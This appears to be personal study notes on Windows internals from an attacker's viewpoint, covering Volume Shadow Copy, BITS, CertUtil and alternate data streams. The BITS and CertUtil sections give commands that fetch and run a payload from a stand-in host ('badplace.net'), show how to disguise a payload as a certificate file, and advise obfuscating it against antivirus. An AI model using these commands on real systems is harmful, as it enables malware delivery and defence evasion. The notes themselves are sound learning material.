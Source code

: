 # Windows Handy Hints and Tips

## Volume Shadow Copy Service (VSS) ##

- This service allows you to backup whole volumes (i.e. lettered drives)
- It can be interacted with via an admin command `vssadmin`
- `vssadmin list volumes` shows you the applicable volumes
- By viewing information about a volume, you can see where it is stored (somewhere like `\\GLOBALROOT\...`)
- From there, you can start listing files stored in the shadow volume, and can view the contents of anything you find interesting

## Background Intelligent Transfer Service (BITS) ##

- Generally used for Windows updates
- But if we can co-opt it, that sounds like a great attack vector, doesn't it?
- You'd need some degree of access to the client machine to start with (or some way of spoofing it so that you appear to be the windows update server...)
- From that start point, you can run PowerShell commands to download/upload items:
  - `Start-BitsTransfer -Source hxxp://badplace.net/malware.exe -Destination C:\Users\Administrator\Run.exe`
- This has been used in attacks to allow malware to re-infect a machine after it has been removed by the blue team/anti-virus tools. It can also be used to download post-exploitation/second-stage malware.

## CertUtil ##

- Intended for downloading CA info
- Can be used for encoding/decoding Base64 data
- A usage pattern might be:
  - Encode payload with base64
  - Name the payload something unassuming, such as ComodoRootCA.p12
  - Invoke CertUtil, similarly to `certutil.exe -urlcache -split -f hxxp://badplace.net/certs/ComodoRootCA.p12 ComodoRootCA.p12`
  - Use CertUtil to decode the payload: `certutil.exe -decode ComodoRootCA.p12 payload.exe`
  - Run the payload
- Note that anti-virus tools are mostly wise to this, so you will need to obfuscate it carefully if this is the method you want to use
  - Example: my anti-virus decided that this file was infected, due to the command line examples above!


## Alternate Streams ##

- If you find a file that is empty, but you feel like there *should* be data in it, check alternate streams.
  - via `SMB`, you can use `allinfo [filename]` to enumerate the streams (among other things)
  - You can then `get` on a specific stream: `get [filename]:[stream]`

